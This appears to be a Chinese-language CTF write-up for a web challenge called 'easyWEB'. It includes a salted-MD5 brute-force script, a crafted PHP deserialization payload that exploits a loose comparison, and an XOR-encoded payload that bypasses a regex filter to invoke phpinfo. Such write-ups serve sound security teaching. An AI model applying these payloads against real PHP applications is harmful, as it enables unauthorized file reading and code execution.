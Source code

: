 # TSCTF-J

* ## Web方向

### 0x01 easyWEB

打开页面发现就是一个输入框，输入了几次都是error

查看源代码发现一个叫submit.js的文件，内部有一个叫做BubbleGVM的函数，初步推测与检测输入有关

进入submit.js查看源代码，发现了一段代码

![](/assets/import.png)

用python脚本翻译一下十六进制代码，得到

![](/assets/import1.png)

发现一个目录叫/fllllaiig，进去看看

![](/assets/import2.png)

整理代码思路：

通过get方法传入已经序列化的参数，当参数为常规可反序列化对象时进行反序列化，传入protected类型变量op，filename，content和passwd，其中passwd值需要经过验证，在传入pop参数后在析构函数中调用process函数进行反序列化以及验证passwd操作

发现两个点：

第一个点

![](/assets/import4.png)

加盐md5，已知盐值，而且提示passwd都是数字，则尝试用脚本跑出来

```
import hashlib

def md5sum(s):
    m = hashlib.md5()  #创建一个hashlib.md5()对象
    m.update(s.encode("utf8"))    #将参数转换为UTF8编码
    return m.hexdigest()             #用十六进制输出加密后的数据

salt = md5sum('Bubb1EgVm')
data = open("C:\CTF\TSCTF-J\EasyWeb\Rainbow.txt",'w+')
for i in range(10000000):
    a = md5sum(str(i))
    b = a + salt
    print(str(i) + " : " + md5sum(b),file=data)
data.close()
```

之后在文件中搜索发现最后的密码为5201314

![](/assets/import7.png)

第二个点：

![](/assets/import8.png)

析构函数中op==='2'为强对比，而前面验证函数中op=='2'为弱对比，因而可以通过op=2来绕过强对比，避免op被置为'1'从而跳入put分支

第三个点：

变量类型为protected，在之后构造payload时需要对payload进行手动修改

构造payload：

```
<?php

class FileHandler {

    public $op = 2;
    public $filename = "hint.php";
    public $content = "111";
    public $passwd = '5201314';	
}
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
$exp = new FileHandler();
$exp_s = serialize($exp);
var_dump(is_valid($exp_s));
echo($exp_s);
?>
```

远程file\_get\_contents\(file\)需要用绝对地址

![](/assets/import9.png)

在构造protected变量的序列化过程中存在\00字符，表现为不可见字符，需要手动添加，位置为环绕\*字符左右各一个，同时s要大写表示后面允许使用\00的表达

最终payload: 

```
O:11:"FileHandler":4:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:32:"/var/www/html/fllllaiig/hint.php";S:10:"\00*\00content";S:3:"111";S:9:"\00*\00passwd";S:7:"5201314";}
```

发现result并无返回值，查看页面源代码发现hint：

```
$dir='bubblegvm5201314';
```

进入到/bubblegvm5201314目录下查看

![](/assets/import10.png)

发现是正则表达式检测，通过异或绕过

Payload：

```
?a=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

跳转到phpinfo界面，在disable\_function处发现flag：

![](/assets/import11.png)



